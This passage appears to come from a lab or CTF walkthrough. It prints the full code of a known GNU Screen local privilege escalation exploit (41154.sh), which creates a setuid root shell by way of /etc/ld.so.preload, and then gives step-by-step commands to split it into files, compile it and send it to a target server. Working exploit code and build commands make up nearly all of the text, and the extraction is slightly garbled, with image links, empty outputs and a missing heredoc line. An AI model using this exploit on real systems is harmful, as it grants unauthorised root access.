



4.1 Compile the exploit
a) Let's see what there is in the file “41154.sh”.
$cat
41154.sh
This script is written in C language and we have divided it into three parts (Red, Orange and Green) for manual compilation.
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
chown("/tmp/rootshell", 0, 0);
chmod("/tmp/rootshell", 04755);
unlink("/etc/ld.so.preload");
printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
setuid(0);
setgid(0);
seteuid(0);
setegid(0);
execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
b) Create a file called “
libhax.c
” with the red code.
$gedit
libhax.c
c) Create a file called “
rootshell.c
” with the orange code.
$gedit
rootshell.c
d) Create a file called “
script.sh
” with the green code.
$gedit
script.sh
e) Compile “
libhax.c
”.
$gcc
-fPIC -shared -ldl -o libhax.so libhax.c
Output:

f) Compile “
rootshell.c
”.
$gcc
-o rootshell rootshell.c
Output:

We have all we need to send to the server.
$ls
-la
Output:

Index